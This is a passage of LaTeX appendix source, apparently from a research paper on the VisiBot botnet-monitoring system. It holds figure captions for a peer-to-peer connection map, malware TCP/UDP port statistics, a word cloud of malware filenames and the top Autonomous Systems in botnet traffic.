    
\includegraphics[width=1.0\linewidth]{images/visibot_screenshot_connections.png}
    \caption{Screenshot of Peer-to-Peer connections shown within the VisiBot Interactive Map.}
    \label{fig:visibot_screenshot_connections} 
\end{figure}



\newpage

\section{Malware Analysis Port Statistics (TCP vs UDP)}
\label{appendix_a7}
\begin{figure}[!htb]
    \centering
    
\includegraphics[width=1.0\linewidth]{results/tcp_port_statistics.png}
    \caption{Malware analysis TCP port usage statistics}
    \label{fig:tcp_port_stats} 
\end{figure}

\begin{figure}[!htb]
    \centering
    
\includegraphics[width=1.0\linewidth]{results/udp_port_statistics.png}
    \caption{Malware analysis UDP port usage statistics}
    \label{fig:udp_port_stats} 
\end{figure}

\newpage

\section{Word-cloud of malware binary filenames.}
\label{appendix_a8}
\begin{figure}[!htb]
    \centering
    
\includegraphics[width=1.0\linewidth]{results/wordcloud.png}
    \caption{Word-cloud of malware binary filenames collected by VisiBot. Larger word-size represents higher occurrence.}
    \label{fig:wordcloud} 
\end{figure}


\newpage

\section{Autonomous Systems most frequently associated with botnet traffic.}
\label{appendix_a9}
\begin{figure}[!htb]
    \centering
    
\includegraphics[width=0.75\linewidth]{results/top_10_asn_overall.png}
    \caption{Top 10 Autonomous Systems based across all traffic.}
    \label{fig:top_10_asn_all} 
\end{figure}

\begin{figure}[!htb]
    \centering
